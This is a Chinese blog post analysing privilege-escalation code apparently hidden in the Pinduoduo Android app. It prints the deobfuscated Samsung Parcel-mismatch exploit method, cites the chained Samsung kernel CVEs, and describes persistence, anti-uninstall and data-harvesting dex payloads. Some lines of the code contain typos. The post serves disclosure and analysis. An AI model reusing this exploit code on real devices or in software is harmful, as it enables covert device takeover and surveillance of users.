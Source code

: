 ```yaml
---
title: PDD 内嵌提权代码，及动态下发dex分析
tags: 技术分享-漏洞报告
id: '233'
date: 2024-05-19 21:12:15
---
```


参考链接：

[https://github.com/davinci1010/pinduoduo\_backdoor](https://github.com/davinci1010/pinduoduo_backdoor)

[https://mp.weixin.qq.com/s/P\_EYQxOEupqdU0BJMRqWsw](https://mp.weixin.qq.com/s/P_EYQxOEupqdU0BJMRqWsw)

[https://xz.aliyun.com/t/2364](https://xz.aliyun.com/t/2364)

## 利用 Samsung 手机 `com.samsung.android.cepproxyks.CertByte` 的提权漏洞

使用3月5日之前的版本，也就是版本为6.50版本之前

[https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728](https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728)

之后将将 apk 文件改为 zip 解压，打开以下目录

```
\assets\component\com.xunmeng.pinduoduo.AliveBaseAbility.7z\com.xunmeng.pinduoduo.AliveBaseAbility\vmp_src\mw1.bin
```

当然，这是加了壳的，根据上方的 GitHub 仓库脱壳之后的代码应该如下

```
Public static Bundle makeBundleForSamsungSinceP(Intent intent){
   Bundle bundle = new Bundle();
   Parcel obtain = Parcel.obtain();
   Parcel obtain2 = Parcel.obtain();
   Parcel obtain3 = Parcel.obtain();
   obtain2.writeInt(3);
   obtain2.writeInt(13);
   obtain2.writeInt(72);
   obtain2.writeInt(3);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(4);
   obtain2.writeString("com.samsung.android.cepproxyks.CertByte");
   obtain2.writeInt(0);
   byte b[] = new byte[0];
   obtain2.writeByteArray(b);
   obtain2.writeInt(0);
   obtain2.writeInt(13);
   obtain2.writeInt(72);
   obtain2.writeInt(53);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(1);
   obtain2.writeInt(1);
   obtain2.writeInt(13);
   obtain2.writeInt(72);
   obtain2.writeInt(48);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(13);
   obtain2.writeInt(-1);
   int dataPosition = obtain2.dataPosition();
   obtain2.writeString("intent");
   obtain2.writeInt(4);
   obtain2.writeString("android.content.Intent");
   obtain2.writeToParcel(obtain3, 0);
   obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
   int dataPosition2 = obtain2.dataPosition();
   obtain2.setDataPosition(dataPosition2 - 4);
   obtain2.writeInit(dataPosition2 -dataPosition);
   obtain2.setdataPosition(dataPosition2);
   int dataSize = obtain2.dataSize();
   obtain.writeInt(dataSize);
   obtain.writeInt(1279544898);
   obtain.appendFrom(obtain2, 0, dataSize);
   obtain.setDataPosition(0);
   bundle.readFromParcel(obtain);
   return bundle;
}
```

关于这些代码的意思，ChatGPT给出的解释：

[https://chatgpt.com/share/5313eddc-1f76-4578-9cf4-8d61eab89635](https://chatgpt.com/share/5313eddc-1f76-4578-9cf4-8d61eab89635)

首先 PDD 利用了 Samsung 的 [CVE-2021-25337](https://github.com/advisories/GHSA-7x25-8cjm-2rj9) 的一个驱动内核信息泄露漏洞，之后再使用了使用 DECON driver 中的 UAF 漏洞（[CVE-2021-25370](https://github.com/advisories/GHSA-hhhg-3qxh-mmh3)）利用 signalfd 系统调用修改 addr\_limit，转化为内核任意地址读写，恭喜！你的手机已经被提权成功了。

## 提权之后 PDD 干了什么

首先利用了手机厂商 OEM 代码中导出的 root-path FileContentProvider， 进行 System App 和敏感系统应用文件读写（具体代码在参考链接中的微信文章）

当然，既然是 PDD 了，为了欺骗用户可谓是不择手段。不然为什么为啥要利用上方的 `FileContentProvider`

利用上方的操作，直接突破沙箱机制、绕开权限系统改写系统关键配置文件为自身保活，修改用户桌面(Launcher)配置隐藏自身或欺骗用户实现防卸载。

做完这些，

动态下发dex，开始给自己保活，防卸载，然后搞数据， 比如：  
`1a68d982e02fc22b464693a06f528fac.dex` 读取用户手机上的app使用记录  
`95cd95ab4d694ad8bdf49f07e3599fb3.dex` 读取用户手机的应用通知。

不是，哥们。你是大厂子也敢这么干啊？

![](https://api.ymbit.cn/images/bushi_gemen.jpg)